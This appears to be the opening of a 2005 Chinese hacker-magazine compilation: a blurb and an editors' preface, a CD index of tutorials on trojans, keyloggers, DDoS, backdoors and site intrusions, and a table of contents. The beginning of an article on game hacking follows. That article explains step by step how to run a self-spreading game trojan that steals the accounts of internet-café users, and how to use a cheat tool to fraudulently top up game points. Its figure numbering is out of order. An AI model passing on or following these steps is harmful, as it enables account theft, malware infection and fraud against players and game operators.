# 黑客防线2005精华本（下）

---

# 黑客防线 2005 精华集萃技术（下册）

《黑客防线》编辑部 编

- 新增6大原创精品黑客技术专题
- 汇聚全年技术焦点
- 300个超过200MB精品黑客动画
- 手把手教你攻防技术
- 200篇精品攻防文章
- 独占黑客技术蓝光

附：双光盘

人民邮电出版社  
POSTS & TELECOM PRESS

## 精华集萃技术（下册）2005

《黑客防线》编辑部 编

人民邮电出版社

## 内容提要

《黑客防线2005精华奉献本》是国内最早创刊的网络安全类媒体《黑客防线》总第37期到第48期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上下两册（本册为下册），并附带2张包含1200M安全技术录像的光盘。文章通俗易懂，图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击/脚本攻击防范、漏洞攻击/漏洞攻击防范、黑兵器库/黑器攻击防范等，并增加了全新的专题文章，同时选取国内首创的“新手学溢出”栏目中的精品文章，非常适合各层次读者学习！

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

## 致读者的话

黑客一词，源于英文 Hacker，原指热心于计算机技术、水平高超的电脑专家，尤其是程序设计人员，他们发现系统漏洞和各种程序错误，并设法修补这样的漏洞。从原来的定义来说，黑客无疑是网络中最让人觉得神秘且崇高的人群。但世界上没有绝对好的东西，黑客也是这样。信息高科技时代的到来，给人类各方面发展都带来了前所未有的巨大进步，但同时也带来了前所未有的巨大灾难。黑客这一神秘群体，由于掌握了核心的技术、最有破坏力的漏洞，所以渐渐分离出来两个部分：一部分是为网络安全而奉献精力的真正黑客，而另一部分是在网络上为所欲为、拥有强大破坏力、行踪神秘的 Cracker！

我国互联网业界风起云涌，网络从最初的新奇，到如今弥散到人们的日常生活，它改变了传统的信息消费渠道，抢占了新闻受众，影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着无数黑客、Cracker 的一次次考验和打击。面对这样的转变，为了普及广大网友的网络安全常识，提高网络管理员的技术水平，《黑客防线》应运而生——一本崭新的集网络安全专业技术、专业资讯为一体的专业杂志面世了。

作为中国最早的网络安全类杂志，走过了五年的风风雨雨，一直以“在攻与防的对立统一中寻求突破”为理念的我们，在普及网络安全知识的同时，针对网络上黑客攻击事件、网络漏洞等方面策划出最快、最新、最权威的技术文章奉献给大家，同时也以为“黑客”正名为己任，告诉我们的每个读者：什么是真正的黑客，什么是黑客精神，什么是 Cracker。

在黑客防线成长的过程中，通过我们不断推出的攻防实验室，非常多的朋友学习到了很多实用的网络安全攻击、防御知识。虽然不可避免地存在一些缺陷，但我们一直在积极地听取大家的意见，每一轮都改进一些，希望能更适合大家的要求。同时，很高兴地看到大家通过实验室而让技术得到成长，而且每个朋友的成长几乎都能带动周围一圈人意识的改变，这样才真正地体现出了“攻防对立统一”的精髓。中国的网络安全就是靠我们每个人的努力才能获得成功，就得靠每个团体中每个分子的努力才能成功！

眼下互联网上的攻击事件越来越多，各大网络管理员、系统维护者都在为入侵防护而头疼，生怕自己一不小心就让虎视眈眈的“黑客”进入了服务器。其实管理员们根本没必要这样担惊受怕。要知道任何攻击技术都不是万能的，每种入侵方法都有它自己针对的漏洞，如果网管们能掌握这样的攻击技术，本身就是一名出色的善意“入侵者”，那在知己知彼的情况下，防护不就变得非常简单了吗？这也是《黑客防线》一直倡导的“在攻与防的对立统一中寻求突破”理念的最终体现，而我们的攻防实验室就是为了深入这一理念而开展的活动。希望每个喜欢入侵技术、每个喜欢安全技术的朋友都能在我们的实验室中学到自己需要的知识——在此前提下，根据各读者的强烈建议，我们特别精选了200篇经典攻防技术文章，特约了6大顶尖技术专题，收集了300个全程演示的攻防录像，融合在《黑客防线2005精华奉献本》里，以便喜欢黑客技术的朋友们系统地学习最新的网络安全技能，做好最强的防护系统。

最后，我们再次感谢广大读者对我们的支持，感谢人民邮电出版社同我们的合作，使更多读者可以看到我们的图书，让国内更多的人了解到黑客技术，并借此来提高国内网络安全的整体水平。同时，有任何疑问欢迎来我们论坛发帖讨论，地址是 http://www.hacker.com.cn/newbbs，我们的编辑和黑客爱好者们将在第一时间为您答疑，帮助您解决安全故障和系统防护问题，共同创造一片纯净的中国互联网空间！

## 黑客防线2005精华奉献本 光盘目录

### A区目录

### 木马骑士：/maindex.htm
- 简单破解Access数据库密码动画教程
- 菜鸟也玩特征码之AV篇动画教程
- Beast动画教程
- 自己做CHM木马动画教程
- 菜鸟防毒技巧动画教程
- 截断木马启动动画教程
- 教你学用黑客之门动画教程
- LANfiltrator 1.5 Beta III动画教程
- 远程控制“狂我行V2.0”动画教程
- 不怕被还原的盗QQ网页木马动画教程
- QQMail木马演示动画教程
- 用浏览器做后门RemotelyAnywhere动画教程
- 冰河2000使用动画教程
- 利用Telnet制作完美后门动画教程
- 功能强大的反弹木马动画教程
- 菜鸟打造强力网页木马动画教程
- 自己做RAR木马动画教程
- 让自启动程序隐身动画教程
- ZXshell安装使用动画教程

### 破解利器：/pindex.htm
- 暴力破解黑社会动画教程
- 留言板动画教程
- Crackftp动画教程
- 一款独立于IIS的支持ASP的Web服务器程序动画教程
- 密码终极修改动画教程
- 在还原精灵5.0上种木马动画教程
- 木马克星暴力破解动画教程
- OllyDbg破解程序动画教程
- 破解Windows小程序动画教程
- 简单脱掉ASPack壳动画教程
- 用OllyDbg破解S-demo动画教程
- 突破禁止下载文件动画教程
- Cain动画教程
- 利用激活专家破解木马及软件限制功能动画教程
- 突破Windows 9x密码限制动画教程
- 自己做免杀工具动画教程
- 破解软件_UPN Port Scanner动画教程
- 轻松爆破搜易网络警察V2.4动画教程
- 用WinHex破解狂风汉化百宝箱XP V2.00a动画教程
- 概预算软件破解动画教程

### 扫描装备：/smindex.htm
- 菜鸟扫描+入侵动画教程
- 简单好用的快速代理使用方法动画教程
- DOS基本命令详解入侵过程动画教程
- 防止Telnet服务动画教程
- 让NB2成为我们的学习工具动画教程
- 强力网站漏洞检测工具NBSI2动画教程
- PHP注射工具动画教程
- PORTREADY动画教程
- 菜鸟快速得到超级代理动画教程
- 菜鸟快速抓取超级代理动画教程
- 一款不错的扫描器动画教程
- SimpsonCGI Scanner动画教程
- 利用天网得到对方IP动画教程
- Cisco路由扫描器动画教程
- VIDC映射动画教程
- WinAutoAttack 2.6扫描器动画教程
- 扫描器dfind V0.81软件动画教程
- 自己制作黑客字典动画教程
- 菜鸟打造电脑铜墙铁壁动画教程
- 让初级黑客对电脑扫描无用武之地动画教程
- 查IP和真实地址动画教程

### 后门访客：/hmindex.htm
- 新式ASP后门动画教程
- 隐藏自己的IP使用3389终端服务动画教程
- 魔虎六号动画教程
- Evil动画教程
- 巧用系统权限防病毒动画教程
- 打造隐藏的FTP服务器动画教程
- 内核级后门动画教程
- 用Peeper控制肉鸡动画教程
- 隐藏启动程序动画教程
- 菜鸟也玩Superdoor动画教程
- 学解VIDC，突破网络封锁动画教程
- WinShell动画教程
- Wolf后门动画教程
- 在肉鸡上建立隐藏的FTP服务器动画教程
- 截断木马启动动画教程

### 密码嗅探：/maxt.htm
- 用Cain进行Sniffer动画教程
- DAVP密码窃取工具动画教程
- EasyPassToFileV-1+Beta动画教程
- 打造不被查杀的键盘记录器动画教程
- family key logger动画教程
- 100%查看FLASH源地址动画教程
- 简单查找歌曲地址动画教程
- Ghost Keylogger动画教程
- 详解键盘记录程序动画教程
- 嗅探电影下载地址动画教程
- SAMInside动画教程
- 简单语言打造不简单工具动画教程
- 有迹可寻记录器动画教程

### 攻击瞬间：/gjindex.htm
- 263信箱破解动画教程
- 尘缘雅境系统上传漏洞利用动画教程
- 威力强大的DDOS工具动画教程
- 独裁者DDOS攻击动画教程
- 利用防火墙抓住对方动画教程
- 教你拿免费的商务邮箱动画教程
- 512MB QQ网络硬盘动画教程
- 短信拿免费QB动画教程
- 申请免费QQ行号动画教程
- 免费包月QQ贺卡动画教程
- 阿拉丁攻击器动画教程
- 扫描存在SQL注入漏洞的后台地址动画教程
- IIS简单入侵动画教程
- 破解香港六合彩网站动画教程
- MS03-043漏洞的内网攻击测试动画教程
- MS04-011漏洞入侵实例动画教程
- 阻挡MS04-028漏洞动画教程
- 动力3.51网站管理系统打印漏洞利用动画教程
- 建立隐藏管理员账号动画教程
- 入侵奇迹私服动画教程
- 申请免费QQ行号+续费动画教程
- 短信超人动画教程
- Serv-U 5.1.0.0服务器本地溢出动画教程
- 针对sa空口令入侵动画教程
- URL欺骗与网页木马的完美结合动画教程
- MS04-011溢出+后门教学动画教程
- 遥控炸弹动画教程

### QQ密技：/qqindex.htm
- 变态QQ秀动画教程
- 超酷QQ名竖着写动画教程
- 查找QQ网络硬盘URL地址动画教程
- 冲Q币的一种思路动画教程
- 利用CHM木马和QQ骗子在线聊天盗QQ动画教程
- 防QQ密码被暴力破解动画教程
- QQmm无处藏！0软件动画教程
- 制作私人QQ动画教程
- 快速得到QQ代理动画教程
- 上宾的个性QQ秀动画教程
- 让QQ没头像动画教程
- 绕过QQ身份证访问任何号码到好友名单中动画教程
- 破解腾讯游戏防沉迷无法发布网址动画教程
- 用QQ来当木马动画教程
- 让QQ优盘从16兆变成160兆动画教程
- QQ本地破解教程动画教程
- QQ虚拟摄像头的使用动画教程
- 腾讯挽手把号送动画教程
- 透明人间大家玩QQ动画教程

### 网游Free：/freeindex.htm
- 绕过限制入侵江湖绝杀动画教程
- 破解管理员密码动画教程
- 入侵www.coolersky.com动画教程
- 盗链QQ163音乐网动画教程
- 修改江湖账号动画教程
- 利用动网下载系统入侵RC奇迹私服动画教程
- 简单扫路由动画教程
- Flash小游戏下载动画教程
- 最新免费发短信动画教程
- 入侵传奇私服取得GM权限动画教程
- 破解六合彩网站动画教程
- 免费申请.info玉米动画教程
- 简单破解网站收费铃声动画教程
- 邮箱变网络硬盘动画教程
- 利用木马克星让上机时间无限动画教程
- 破解收费站点的密码动画教程
- 网络电视小精灵动画教程
- 下载在线电影动画教程
- 入侵奇迹私服动画教程
- 黑客私服动画教程
- 使用超级兔子软件的超级兔子优化王动画教程
- 偷偷下载所有的在线资源动画教程
- 美诺安全卫士存在重大漏洞动画教程
- DDOS攻击动画教程

### 漏洞探幽：/ldindex.htm
- 20168端口入侵动画教程
- Windows LSASS远程缓冲区溢出漏洞动画教程
- CCProxy 6.0溢出演示动画教程
- Cookie欺骗动画教程
- 啊D网络工具包IPC入侵教程动画教程
- 利用动网下载系统入侵RC奇迹私服动画教程
- Windows Lsasrv.dll RPC溢出演示动画教程
- MS04-011溢出入侵动画教程
- 最新MS SQL溢出演示动画教程
- 域名入侵动画教程
- Serv-U溢出+3389+后门动画教程
- FrontPage扩展无限制设置入侵取得admin动画教程
- 利用Serv-U标识找肉鸡动画教程
- Serv-U本地利用程序PHP版动画教程
- 搞定对方防火墙动画教程
- SQL2入侵动画教程
- Serv-U溢出演示动画教程
- IPC空连接动画教程
- 手工建立隐藏用户动画教程

### 脚本入侵：/jbindex.htm
- DVBS 7.0 SP2拿到Admin动画教程
- BBS3000论坛入侵动画教程
- 新版BBSXP得到管理员账户密码动画教程
- 动力文章系统获得WEBSHELL.smv动画教程
- 盗链实战动画教程
- 寻找注入点动画教程
- 利用点歌台漏洞入侵论坛动画教程
- 未公布的动力系统漏洞动画教程
- 下载SQL数据库动画教程
- 入侵DV7.0 SP2动画教程
- 动网直接上传ASP木马动画教程
- 突破论坛插件上传限制进行上传动画教程
- Dvbbs_Upfile跨站传文件动画教程
- 动网7.0.0+Access+SP2最新漏洞动画教程
- 入侵飞龙文章管理系统动画教程
- 文件上传终极方案动画教程
- 突破不支持FSO动画教程
- 利用Cookie欺骗突破动网5.0动画教程
- 提升ASP木马权限动画教程
- 入侵肆意黑客协会全过程动画教程
- JOEKOE留言本漏洞动画教程
- 乔客上传漏洞动画教程
- 最新凉云漏洞动画教程
- 动网论坛上传漏洞动画教程
- 落日整站漏洞演示动画教程
- 麦森整站程序上传漏洞动画教程
- 利用NEATPIC的上传漏洞入侵动画教程
- 入侵青创网络动画教程
- 日记本漏洞动画教程
- 入侵动感极限下载管理系统v3.5动画教程
- 入侵雨天下载动画教程
- 入侵爱雪儿图文系统动画演示动画教程
- 入侵苯笨设计整站系统动画教程
- 自由动力上传漏洞动画教程
- 入侵电影网站动画教程
- 入侵婴叽小月免费空间动画教程
- 入侵校园社区系统动画教程
- 简单入侵动画教程
- 入侵大唐社区美化版动画教程
- SQL注入破解电影网站动画教程
- SQL工具wed.exe的不足与注入新雪档案信息网动画教程
- 最快的SQL注入动画教程
- 天天商务上传漏洞和利用动画教程
- Unicode漏洞攻击动画教程
- 网上商城整站程序漏洞利用动画教程

### 入侵实例：/qindex.htm
- 利用6129端口入侵动画教程
- ASP提权开3389控制服务器动画教程
- 一次爆DLL型传奇木马数据库的过程动画教程
- 菜鸟找肉鸡动画教程
- 把木马注册为系统服务动画教程
- 开3389教程动画教程
- 真正入侵六合网动画教程
- 手把手教你入侵动画教程
- 轻松提升权限动画教程
- 在对方DOS下增加修改用户名和密码动画教程
- 海阳顶端网ASP木马@2005 α版动画教程
- 入侵木马站点动画教程
- 手工替换服务，没SC也行动画教程
- 冰狐浪子最新微型反向ASP后门动画教程
- 利用测试空间运行WEBSHELL进行入侵动画教程
- 简单改特征码动画教程
- CVB论坛上传漏洞动画教程
- 域名欺骗之酷酷域名动画教程
- 风雪远程控制软件4.1动画教程
- 入侵图片站动画教程

### 安全防范：/aqindex.htm
- 申请让您自己满意的域名动画教程
- 宽带局域网代理提速动画教程
- 代理的使用方法动画教程
- 架设私人的E-Mail服务器动画教程
- 扫描路由器动画教程
- 分辨路由器或交换机动画教程
- 简简单单玩路由动画教程
- 利用路由交换设备做跳板动画教程
- 路由篇之拒绝服务攻击动画教程
- 路由器操作进阶动画教程
- 破解CISCO密码动画教程
- 制作自己的路由器动画教程
- 路由模拟器之创建VLAN动画教程
- 进一步设置3389内网主机动画教程
- 虚拟机的使用动画教程
- 在不打开邮件的情况下读邮件动画教程

### 源代码：/daima.htm
- lmail溢出程序
- 加密数据库代码
- Cmail漏洞源程序
- lsasrv.dll漏洞源程序
- Serv-U FTP漏洞源程序及其调试录像
- JPEG漏洞分析代码
- shellcode测试代码
- 端口列表
- Workstation漏洞代码
- foxmail溢出代码
- LSA溢出代码
- Serv-U v5.0.0.4溢出代码
- Linux下的Serv-U溢出
- ms04-019漏洞分析代码
- Jpeg漏洞利用程序
- Tomcat信息查询
- BBSXP漏洞分析代码
- BBSXP漏洞利用代码
- DVBBS7漏洞分析代码
- 自由动力上传漏洞
- Linux本地溢出代码
- CHM木马
- 磁盘操作程序
- 检测肉鸡信息
- HTTP代理服务器
- 检查系统启动程序
- 反向后门技术
- IP规则包
- 探测SQL信息的脚本
- pstools工具包
- 涉及代码
- 反向连接后门
- 小游戏内存补丁

## 黑客防线2005精华奉献 目录（下册）

### 最新情报
- 黑遍天下网游 …… 1
- Linux下精品黑软大阅兵 …… 3
- 如何有效地寻找ASP漏洞 …… 12

### 特别关注
- 知己知彼，方能百战不殆——Apache安全设定面面观 …… 21
- 让肉鸡难逃五指山——精品后门程序及思路分析 …… 29
- 挑战安全专家——攻破个人防火墙 …… 35
- 脚本注入其实很简单 …… 39
- 网页木马让你肉鸡成群——网页木马制作、隐藏、传播全接触 …… 45
- 万能上传击溃ASP/PHP/JSP脚本系统 …… 51
- 打破SQL Injection的神秘光环 …… 56

### 漏洞分析
- Windows Workstation服务远程溢出漏洞分析 …… 62
- Workstation Service远程溢出漏洞攻击实战 …… 65
- 微软IE MHTML文件重定向并执行漏洞分析 …… 66
- Serv-U FTP Server远程溢出抢鲜体验 …… 68
- 我是这样发现Serv-U FTP溢出漏洞的 …… 70
- 就在身边的域名欺骗 …… 72
- Windows heap溢出新技巧 …… 73
- 冷眼网络安全——Foxmail PunyLib.dll远程缓冲区溢出漏洞 …… 74
- 抢先体验Windows LSA远程溢出 …… 76
- Serv-U v5.0.0.4远程缓冲区溢出分析——Serv-U v5.0.0.4 and prior畸形文件名远程溢出 …… 78
- CVS漏洞击溃开源系统 …… 80
- 全面渗透门户网站21xx.com内部服务器群组 …… 82

## 精彩奉献本目录 CATALOG

www.hacker.com.cn

- Linux下的疯狂Serv-U溢出 …… 85
- 利用JPG漏洞构造网页木马 …… 86
- 我是这样杀进去的——利用旁注入侵虚拟主机 …… 87
- 享受同时在线——绕过网通ADSL的唯一性认证 …… 88
- 巧用MS04-019提升权限 …… 89
- 一次巧妙的渗透入侵——对内网有端口转发的域的渗透 …… 91
- 我是如何发现CCProxy远程溢出漏洞的 …… 93
- 拐弯入侵虚拟主机 …… 97
- 修改Exploit体验本地权限提升的乐趣 …… 99
- 在Windows GDI+JPG中文溢出中飞舞 …… 102
- 入侵Tomcat服务器 …… 103
- 妙用ASP.NET暴库大法下载数据库 …… 106

### 脚本攻击

- 盗帅下载系统2.0正式版存在多个跨站漏洞 …… 108
- MSSQL跨库查询你想怎么玩？ …… 109
- 动网漏洞之“乾坤大挪移” …… 111
- 再谈“跨站脚本攻击”——入侵某知名安全站点实例 …… 113
- 划时代的脚本攻击——利用纯脚本技术获得系统权限 …… 116
- 突破常规限制运行ASP木马 …… 120
- 打造SQL注入脚本 …… 122
- 再次挑战BBSXP论坛 …… 125
- 玩转PHP-Nuke攻与防 …… 127
- 通过数据库备份巧获Shell …… 129
- BBSXP漏洞续谈 …… 131
- 被人忽略的Adodb.Stream网页木马 …… 133
- ACCESS惊现又一漏洞 …… 135
- 如何给远程服务器写入文件 …… 135
- 把DVBBS7.0拉下马 …… 137
- 榨干MS SQL最后一滴血 …… 140
- 浅谈PHP+MySQL注射语句构造——Okphp BBS v1.3代码安全分析 …… 142
- 将DvBBS7送进地狱 …… 144
- 妙用IIS写权限触发后门 …… 146
- 简单分析SQL注入中对汉字的猜解 …… 149
- 突出重围——动网7.0 SP2 ASP后门上传新方法 …… 151
- 乔客论坛惊爆UFile严重漏洞 …… 152
- JSP+Oracle SQL Injection之旅 …… 154
- 突破FSO限制夺取系统权限 …… 156
- ASP.NET木马攻陷Windows 2003坚强堡垒 …… 158
- 自由动力也玩文件上传 …… 160
- “自由动力”引发连环安全隐患 …… 162
- CGI漏洞配合本地溢出搞定Linux主机 …… 163
- 暴风雨的先驱——邮件网页木马 …… 164
- 来自于黑防攻防实验室的收获——又一种突破防下载限制得到WebShell的方法 …… 166
- 入侵闪客帝国 …… 167
- 绕过Xplog70.dll玩入侵 …… 169
- BBSXP新漏洞三珠连发 …… 171
- 轻松绕过登录表单 …… 174
- 小议BBSXP绝对路径暴露漏洞 …… 176
- IE就是这样被攻击的 …… 177

### 黑器攻防

- 命令行下将肉鸡做成服务器 …… 178
- 将后门隐藏到底——内核级后门Hxdef100配置及使用方法 …… 179
- 通过BITS …… 181
- CHM木马也疯狂 …… 182
- 千变万化恢复xp_cmdshell——利用MSSQL数据库存储扩展取得服务器权限 …… 184
- 不慌不忙控制内网肉鸡 …… 186
- 命令行下实现VNC反向连接 …… 189
- “数字签名”自己做——打造属于自己的在线工具及控件木马 …… 191
- 杀毒软件能奈我何——网络神偷特征码修改实战 …… 193
- Windows 2000 Professional也开3389 …… 196
- 轻松绕过黑洞2004用户验证 …… 197

### 编程解析

- 黑白对抗中的磁盘操纵技术深入探析 …… 199
- 轻松实现检测Windows肉鸡系统信息 …… 201
- HTTP代理服务器也DIY …… 205
- INI文件读写技术及程序自动加载应用剖析 …… 208
- 杀毒软件编程精华——特征码扫描技术 …… 210
- 得到Web Shell就这么简单！ …… 212
- 利用LPD请求探查远程操作系统 …… 215
- 利用子类化技术实现QQ木马 …… 217
- 让外挂不再——Winsock2 SPI网络封包截获技术 …… 220
- 基于反向连接的木马编写思路 …… 222
- VB打造强力注册码查看器 …… 223
- VB也玩反弹木马 …… 225
- 用木马远程控制Access …… 229
- 自己编写IP包监视工具 …… 231
- 自动探测SQL Server数据信息 …… 234
- 你也能写Pstools工具包 …… 237
- VBS+MSWinsock打造灵巧UDP后门 …… 241
- 编程实现修改注册表完成程序自启动 …… 243
- 透析VNC编程 …… 244
- Perl铸造多线程中文SQL注入猜解机 …… 247
- 进程隐藏技术解析——DLL远程线程插入主程序 …… 250
- 从零开始玩编程系列之一：自己做个文件捆绑器 …… 255
- 从零开始玩编程系列之二：经典的反向连接后门 …… 259

### 编程黑洞

- Cracker兵器谱组合招式之Delphi篇 …… 263
- 加密光盘破解全接触 …… 266
- 用Ollydbg对SVK Protector程序手动脱壳和修复 …… 268
- 怎样算是一个好的软件保护 …… 271
- DigiPhoto Gallery v2.4注册算法分析 …… 273
- 当hacker遇上Cracker——实例解说Cracker思路 …… 275
- 解析“网际快车”破解与算法 …… 277
- 爆破重启后注册检查程序“英语会话精灵” …… 279
- 不用汇编破解软件——巧用资源编辑工具突破某著名网络电视软件功能限制 …… 280
- 利用Win32 Debug API打造自己的Debugger …… 282
- 破解典型软件注册方式——Melody V1.52注册流程分析 …… 286
- 手工破解硬件硬盘保护卡 …… 289
- 看我一跳一千层——“是男人就上一百层”系列游戏内存补丁的实现 …… 291
- 木马克星注册算法分析 …… 296
- 简单破解Serv-U密码 …… 299
- 以壳解壳——对ASProtect加壳程序的脱壳和破解 …… 301
- 实用Windows XP管理员密码恢复方法 …… 305
- 我与软件比道行——从“科洛斯之神-游戏伴侣”反跟踪调试功能看软件破解 …… 306
- 软件逆向工程进阶之“坦白从宽”篇 …… 309

## 黑透天下网游


文/图 混世魔王

在现在的网络中，网络游戏有逐渐成为一种职业的趋势，所谓的“游戏黑客”也开始盛行，下面我就带大家走进这“黑暗”的一面，看清楚那蔚蓝天空上的“黑云”！

### 传奇篇

传奇可算是家喻户晓的一个网络游戏了，游戏装备已经没有价值了，因为它常常出漏洞，可以说得上是被WPE的作弊封包搞垮的，刷钱、刷装备、盗号更是到处都是，不过优秀的却并不多。这里介绍一款网吧感染版的传奇木马，为了逃过杀毒的查杀，它的版本比较多，但是功能超强。虽然软件介绍说“网吧中一台电脑中木马，可以感染整个网吧”，但是这样的网吧在现实中是找不到的。换个角度我们测试，它的感染功能却可以感染个人电脑。笔者在Windows 2000的NTFS磁盘格式下测试，所有盘的exe文件全部被感染（包括备份），不过软件制作者也写了它的专杀工具，要不笔者可就要格式化整个硬盘了——它传播的强悍，由此可见一斑。

下载软件后，其中包括cy.exe、Group.dat、HOOK.dll、login.asp、PsSdk_dll.dll和WinMain.ini这几个文件，直接运行cy.exe就可以执行木马了！按F10是隐藏界面，F11是呼出界面。如果你的网吧当时有人上传奇的话，10分钟就把他们的所有号盗光了！如果你见到cy1这个软件显示密码的话，就打开记录，完整的账户和密码信息就在里面，不过这个软件对私服不显示密码。



图2

我们再使用“Tab+Alt”调出刷点外挂，点击“充值”，如图3所示。



图3

### 泡泡堂篇

泡泡堂也是盛大出的一款游戏，虽然它没有什么盗号程序，但是不断出现的Bug却让很多人都钻了空子，包括笔者的朋友在内的人都在疯狂地刷点。下面就给大家说一下刷点的过程，读者朋友们可不要疯狂刷点哦！

首先运行“泡泡堂刷点外挂2.0”，输入软件的注册账号，登录软件，如图1所示。



图1

接着运行游戏泡泡堂，登录自己的泡泡堂游戏账号，来到泡泡堂商店。我们可以看到商店下面有个点卷，数字为零，我们充值20000点卷，如图2所示。

此时外挂会提示“正在充值中，请稍等……”，为了我们的点卷，还是等一等吧，一会结果出来了，如图4所示。

